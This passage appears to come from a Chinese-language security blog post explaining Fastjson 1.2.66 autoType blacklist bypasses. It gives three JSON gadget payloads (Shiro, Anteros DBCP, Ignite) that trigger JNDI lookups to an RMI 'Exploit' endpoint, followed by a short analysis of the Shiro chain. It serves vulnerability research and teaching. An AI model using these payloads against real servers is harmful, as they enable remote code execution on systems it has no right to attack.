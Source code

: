
# 版本1.2.66

## 绕过原理

- 原理：使用新的Gadget绕过黑名单
- 利用条件
  - **需要 Fastjson版本 ≤ 1.2.66，并且需要开启`setAutoTypeSupport`**

在1.2.66及其之前又出现了一些JNDI注入的利用链，下面列出PoC，并简单的分析一些

### org.apache.shiro-core-1.5.1.jar

关键PoC：**org.apache.shiro.jndi.JndiObjectFactory**

```java
"{\"@type\":\"org.apache.shiro.jndi.JndiObjectFactory\",\"resourceName\":\"rmi://localhost:1099/Exploit\"}"
```

### br.com.anteros.Anteros-DBCP-1.0.1.jar

关键PoC：**br.com.anteros.dbcp.AnterosDBCPConfig**

```java
"{\"@type\":\"br.com.anteros.dbcp.AnterosDBCPConfig\",\"metricRegistry\":\"rmi://localhost:1099/Exploit\"}"
```

### org.apache.ignite.ignite-jta.1.1.0-incubating.jar

关键PoC：**org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup**

```java
"{\"@type\":\"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup\",\"jndiNames\":\"rmi://localhost:1099/Exploit\"}"
```

## 详情分析

### org.apache.shiro-core-1.5.1.jar

- 这条链需要注意的是，在反序列化时需要使用parseObject进行

![Fastjson%20Bypass/Untitled%2018.png](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/FastjsonBypass/18.png)

- 由于parseObject需要返回JSONObject类型对象，继承了Map，在使用toJSON进行转换的时候会遍历其字段，并调用字段getter获取value放到Map中，在调用getInstance()方法时触发JNDI注入

![Fastjson%20Bypass/Untitled%2019.png](https://blog-img-1252112827.cos.ap-chengdu.myqcloud.com/image/jpg/FastjsonBypass/19.png)

### br.com.anteros.Anteros-DBCP-1.0.1.jar
